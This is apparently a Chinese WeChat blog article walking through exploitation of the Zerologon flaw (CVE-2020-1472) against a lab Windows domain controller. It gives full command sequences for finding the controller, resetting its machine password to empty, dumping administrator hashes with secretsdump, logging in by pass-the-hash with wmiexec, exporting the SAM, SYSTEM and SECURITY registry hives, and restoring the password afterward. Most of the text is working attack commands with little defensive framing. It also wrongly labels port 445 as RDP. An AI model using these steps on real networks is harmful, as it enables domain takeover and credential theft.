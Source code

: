 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Z9aBVr-3jofcJ9AmGQkjgw)

域控（Win2008）：192.168.199.131

域用户（Win7）：192.168.199.128

域用户（Win03）：192.168.199.129

漏洞验证工具：https://github.com/SecuraBV/CVE-2020-1472

利用 + 重置工具：https://github.com/risksense/zerologon

重置 hexpass 工具：https://github.com/dirkjanm/CVE-2020-1472

工具运行环境：https://github.com/SecureAuthCorp/impacket

1、假设已经渗透到内网

![](https://mmbiz.qpic.cn/mmbiz_png/94P5GHH0dOS1h2hDwic9Krzu6nWGrt3q1nClsOZHaS1uFrvtBXVaHickRfibxiaBicPfl6mCPzPic6JGOGib0e4RFlLDA/640?wx_fmt=png)

2、常见查找域的方法

（1）可以通过扫描是否开放端口：53（dns）、389（ldap）、445（rdp）

（2）通过 nbtstat 命令

Usage：nbtstat -A 当前 IP

![](https://mmbiz.qpic.cn/mmbiz_png/94P5GHH0dOS1h2hDwic9Krzu6nWGrt3q14dfnlOZt6PvwQsLgOym0FQfEJklRKtdtKltEbJxxqFZyJLIzCXRIVw/640?wx_fmt=png)

Usage：ping 域. com

![](https://mmbiz.qpic.cn/mmbiz_png/94P5GHH0dOS1h2hDwic9Krzu6nWGrt3q1UPUicqHw2jmWmtGxMicqv1BmZ2t2MyIQ3LEAib4h8YHOqcUtcJEdfMJibA/640?wx_fmt=png)

（3）查看 systeminfo

Usage：systeminfo

![](https://mmbiz.qpic.cn/mmbiz_png/94P5GHH0dOS1h2hDwic9Krzu6nWGrt3q1MwZP4r2XQIxp41QWspZhVF9lhDib9wnQBzvVvhibiakG6UyNzHJ5ZEI9A/640?wx_fmt=png)

（4）查看主机 dns

Usage：nslookup

![](https://mmbiz.qpic.cn/mmbiz_png/94P5GHH0dOS1h2hDwic9Krzu6nWGrt3q1lDStGlicTAjE7flXFaKzibibv8GyyjAicicHZJGVHWiakJiaiaObPZiaDGADrdQ/640?wx_fmt=png)

（5）查看当前登录域

Usage：net config workstation

![](https://mmbiz.qpic.cn/mmbiz_png/94P5GHH0dOS1h2hDwic9Krzu6nWGrt3q1DnQKWw3u5OA76Pg4HBBibMkzvNSjn2DoFlqXZ3BUQF7XRrp9zHMiaglQ/640?wx_fmt=png)

3、用拉登的 cs 插件扫描 ldap

Usage：Ladon.exe 域地址 LdapScan

Example：Ladon.exe 192.168.199.1/24 LdapScan

（图中 IS_LDAP 提示 192.168.199.131 是域控）

![](https://mmbiz.qpic.cn/mmbiz_png/94P5GHH0dOS1h2hDwic9Krzu6nWGrt3q1ry1gia7Z6GEGIsvD4gOicdyN4xPCMJ6taS8TUEdVzoe8EoEhYxxCiaOiag/640?wx_fmt=png)

3、确定域后确定域主机名

Usage：Ladon.exe 域地址 OsScan

Example：Ladon.exe 192.168.199.131 OsScan

HKServer.com\YUKONG（HKServer 是，YUKONG 是域主机名）

![](https://mmbiz.qpic.cn/mmbiz_png/94P5GHH0dOS1h2hDwic9Krzu6nWGrt3q1GTtYyJZ5EpV8mlSaXB2jstibH3O1oWicFyOms2qgVWS9XDfqTOMGE96Q/640?wx_fmt=png)

4、用验证脚本测试是否存在（测试存在）

Usage：python3 zerologon_tester.py 域主机名域地址

Example：python3 zerologon_tester.py YUKONG 192.168.199.131

![](https://mmbiz.qpic.cn/mmbiz_png/94P5GHH0dOS1h2hDwic9Krzu6nWGrt3q1O7eQ4qwwCRLMicw6FadHDXb0CWtDa07cf0oUJd1yex3RUKedBiaflg4Q/640?wx_fmt=png)

5、再用 set_empty_pw 脚本测试

Usage: set_empty_pw.py <dc-name> <dc-ip>

Example：python3 set_empty_pw.py YUKONG 192.168.199.131

大概利用方法就是把域用户密码清空，用空密码连上去 dump 管理员的 hash

![](https://mmbiz.qpic.cn/mmbiz_png/94P5GHH0dOS1h2hDwic9Krzu6nWGrt3q1BtmjuGQgwlS0BdeZZlAEt9ib7R220OLYWFb09Vetia1TWvQL8lvDqdkQ/640?wx_fmt=png)

6、利用 secretsdump 脚本 dump 用户 hash

Usage：python3 secretsdump.py "域 / 主机名 $"@域地址 - just-dc -no-pass

Example：

python3 secretsdump.py "HKServer/YUKONG$"@192.168.199.131

-just-dc -no-pass

执行 dump 可以看到 YUKONG$ 用户的密码已经被重置成空密码，31d6cfe......

![](https://mmbiz.qpic.cn/mmbiz_png/94P5GHH0dOS1h2hDwic9Krzu6nWGrt3q1wJyuiaBd6o10SB2YxNFxCeuWgrQXKOKoHV1blWN6UJkSicXWCHlDS1ibg/640?wx_fmt=png)

因为把域密码重置为空，所以 - no-pass 就行了，在用户过多的情况下可以单独 dump administrator 的 hash

命令改成：-just-dc-user "administrator" 就 ok，见下图

![](https://mmbiz.qpic.cn/mmbiz_png/94P5GHH0dOS1h2hDwic9Krzu6nWGrt3q1CFZXOCqPBeP7mmLaSZ3DSrKsGhH1Ty159ePxJRhHcsQ39E1ogyiaiaEQ/640?wx_fmt=png)

7、利用 wmiexec 脚本横向连接（连接后恢复原始 hash）

Usage：

python3 wmiexec.py 域 / administrator@ 域地址 - hashes

aad3b435b51404eeaad3b435b51404ee:3766c17d09689c438a072a3327

0cb6f5

Example：

python3 wmiexec.py HKServer/administrator@192.168.199.131 -hashes

aad3b435b51404eeaad3b435b51404ee:3766c17d09689c438a072a3327

0cb6f5

![](https://mmbiz.qpic.cn/mmbiz_png/94P5GHH0dOS1h2hDwic9Krzu6nWGrt3q15zibFibmFmrnMeQGE6moXDFjv7xHPsVd7k66O3PGmUUjodYrTNQqbwhg/640?wx_fmt=png)

已经连上来了，可以上 cs，或者加管理员登录上去看都行，主要是恢复密码

先备份注册表（依次命令一遍）：

reg save HKLM\SYSTEM system.save

reg save HKLM\SAM sam.save

reg save HKLM\SECURITY security.save

get system.save

get sam.save

get security.save

del /f system.save

del /f sam.save

del /f security.save

（save 后缀的文件会下载到你 wmiexec 脚本的同目录）

![](https://mmbiz.qpic.cn/mmbiz_png/94P5GHH0dOS1h2hDwic9Krzu6nWGrt3q1haHpCU94LNh5sgveHwWWnY1icg5GOFywxB9zC9EoXzkWxv6gVxO82zg/640?wx_fmt=png)

8、再用 secretsdump 脚本获取原始 hash

直接退出来命令：

python3 secretsdump.py -sam sam.save -system system.save -security

security.save LOCAL

![](https://mmbiz.qpic.cn/mmbiz_png/94P5GHH0dOS1h2hDwic9Krzu6nWGrt3q1RLWKbP43GvXrN6uz4UiaAnx1KPRWRqibnI49w10LvziaDaicolEU0COUaQ/640?wx_fmt=png)

9、最后用 reinstall_original_pw 脚本恢复

Usage：python3 reinstall_original_pw.py 主机名域地址 hash

Example：

python3 reinstall_original_pw.py YUKONG 192.168.199.131

30f90a3bfe2f085a880dcf954a8825f4

![](https://mmbiz.qpic.cn/mmbiz_png/94P5GHH0dOS1h2hDwic9Krzu6nWGrt3q1NeKbRSfupGsY4nLpy2ib4lZWFRk1RhWHOlZ7YkoYz0r2NMczFxRDPsA/640?wx_fmt=png)

10、可能会出现没有 hash 的情况，可以用 restorepassword 脚本恢复 hexpass

取第 8 步中 plan_password_hex 字段

Usage：python3 restorepassword.py DC@DC -target-ip 域地址 - hexpass

值

Example ：python3 restorepassword.py YUKONG@YUKONG -target-ip

192.168.199.131 -hexpass

8dac4a096eec66839507b9018ace3e1ac2e27e4e81455eda7ee9e49d86a

2c57619740204e76571e512144a72c67d01e21a7d6b0c13ed4cebc97442

e1f9e75b6943c8fe4a67c0c8c6dfd0046624dd174b2dba468df3303a54a4

1be3f415f19f7cf25ae6f730cda6d125e5ebf480161b3bd9d4da2dca2f215f

01ba6b26603b8e36fd3bd86c3cb9ebba159da747df883125e6d00cbe105

c270c866d904b166bf6356f45572df5ed37976561da201e954074484b2d

b4462ae6c3d35fc0350feab07ea8868952fd8e84d9d5b66df6542e0f41a1e

283bb09c6cebfb2bb41fdc2b4d0a1ef8f5b2a94b2c3741c79f05c4edca170

假装有图

11、用第 7 步看看是不是真的恢复了

![](https://mmbiz.qpic.cn/mmbiz_png/94P5GHH0dOS1h2hDwic9Krzu6nWGrt3q1mnyDL7IY20UT0WyOicmhI7FBtxwg1vgGniasV3IKf15coeER9jqqTMiag/640?wx_fmt=png)

恢复后连接 3389 即可

![](https://mmbiz.qpic.cn/mmbiz_png/94P5GHH0dOS1h2hDwic9Krzu6nWGrt3q1lOW8M5lgw26ZWwRKqXEicDjCyrKqLT7qQB1jOw11EF8icM1V9POWtxsw/640?wx_fmt=png)

```
扫描下方二维码加小秘书微信，发送”安全“加入粉丝群。


------------------------------------

关注玄魂工作室--精彩不断

如果喜欢本文
欢迎 在看丨留言丨分享至朋友圈 三连
```